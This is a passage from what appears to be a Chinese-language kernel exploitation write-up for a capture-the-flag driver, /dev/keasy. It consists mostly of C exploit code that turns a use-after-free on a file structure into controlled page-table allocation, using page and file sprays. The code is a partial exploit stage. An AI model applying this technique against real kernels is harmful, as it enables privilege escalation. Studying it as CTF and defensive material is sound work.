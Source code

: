 ```C
  // 打开有问题的文件
  int fd = open("/dev/keasy", O_RDWR);
  if (fd == -1)
    fatal("/dev/keasy");
  // Prepare pages (PTE not allocated at this moment)
  // 准备页面（PTE此时未分配）
  for (int i = 0; i < N_PAGESPRAY; i++) {
    page_spray[i] = mmap((void*)(0xdead0000UL + i*0x10000UL),
                         0x8000, PROT_READ|PROT_WRITE,
                         MAP_ANONYMOUS|MAP_SHARED, -1, 0);
    if (page_spray[i] == MAP_FAILED) fatal("mmap");
  }
  puts("[+] Spraying files...");
  // Spray file (1)
  for (int i = 0; i < N_FILESPRAY/2; i++)
    if ((file_spray[i] = open("/", O_RDONLY)) < 0) fatal("/");
  // Get dangling file descriptorz
  int ezfd = file_spray[N_FILESPRAY/2-1] + 1;
  if (ioctl(fd, 0, 0xdeadbeef) == 0) // Use-after-Free
    fatal("ioctl did not fail");
  // Spray file (2)
  for (int i = N_FILESPRAY/2; i < N_FILESPRAY; i++)
    if ((file_spray[i] = open("/", O_RDONLY)) < 0) fatal("/");
  puts("[+] Releasing files...");
  // Release the page for file slab cache
  for (int i = 0; i < N_FILESPRAY; i++)
    close(file_spray[i]);
  puts("[+] Allocating PTEs...");
  // Allocate many PTEs (page fault)
  for (int i = 0; i < N_PAGESPRAY; i++)
    for (int j = 0; j < 8; j++)
      *(char*)(page_spray[i] + j*0x1000) = 'A' + j;
  getchar();
  return 0;
}
```

fput 释放之前的文件结构：

![Alt text](image-2.png)
